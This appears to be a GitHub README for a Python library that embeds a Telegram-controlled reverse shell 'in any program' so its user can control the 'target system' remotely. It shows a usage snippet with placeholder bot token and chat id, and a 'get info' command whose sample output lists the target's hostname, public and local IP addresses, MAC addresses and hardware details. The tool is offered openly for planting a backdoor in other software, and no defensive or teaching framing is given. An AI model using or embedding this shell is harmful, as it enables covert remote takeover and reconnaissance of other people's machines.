

 <p align="center">

</p>

# py tel reverse shell 
 
> the reverse shell in your telgram!

<br>

[](https://gitlicense.com/license/TorhamDev/gitlicense)
## What is this?
This program is a Python library that you can use to put an inverted shell connected to Telegram in any program. And control the target system from within the telegram.

# How does it work?
Currently, this **Python library** cannot be installed using pip, but it can be used this way anyway.

```python 
# sample program
from py_tel_reverse_shell import tel_shell


## get token from @BotFather in telegram
my_token = "2018473XXXXXXXXXXXXXXXXXXXXX-3M"
## get your number id from @userinfobot in telegram
my_chat_id = "19XXXXX25"


tel_shell.start_shell(bot_token=my_token,chat_id=my_chat_id)
```
and over. You can easily put an inverted shell connected to Telegram in your program.

<br>

# options
*You can send these words to the robot to get the answer.*
```bash
get info #get full info from target
```
sample output:
```text
-------- Boot Time -----------
 Boot Time: 2021/9/20 13:56:22
 -------- system info -----------
 platform: Linux
 platform-release: 5.13.16-200.fc34.x86_64
 platform-version: 1 SMP Mon Sep 13 12:39:36 UTC 2021
 architecture: x86_64
 hostname: optimus
 ip-address: 192.168.1.36
 public IP address: 31.xxx.xxx.32
 -------- CPU info -----------
 processor: x86_64
 Physical cores: 2
 Total cores: 2
 Max Frequency: 3200.00Mhz
 Min Frequency: 800.00Mhz
 Current Frequency: 895.82Mhz
 Total CPU Usage: 23.4%
 -------- Memory info -----------
 Total: 7.66GB
 Available: 4.81GB
 Used: 2.09GB
 Percentage: 37.2%
 -------- SWAP info -----------
 Total: 14.66GB
 Free: 14.40GBUsed: 266.50MBPercentage: 1.8%
 -------- Network info -----------
=== Interface: lo ===
 IP Address: 127.0.0.1
 Netmask: 255.0.0.0
 Broadcast IP: None
=== Interface: lo ===
 MAC Address: 00:00:00:00:00:00
 Netmask: None
 Broadcast MAC: None
=== Interface: enp2s0 ===
 IP Address: 192.168.1.36
 Netmask: 255.255.255.0
 Broadcast IP: 192.168.1.255
=== Interface: enp2s0 ===
 MAC Address: 1c:xx:xx:xx:a2:c8
 Netmask: None
 Broadcast MAC: ff:ff:ff:ff:ff:ff
=== Interface: virbr0 ===
 IP Address: 192.168.122.1
 Netmask: 255.255.255.0
 Broadcast IP: 192.168.122.255
=== Interface: virbr0 ===
 MAC Address: 52:xx:xx:xx:6c:93
 Netmask: None
 Broadcast MAC: ff:ff:ff:ff:ff:ff
 Total Bytes Sent: 83.69MBTotal Bytes Received: 175.42MB
```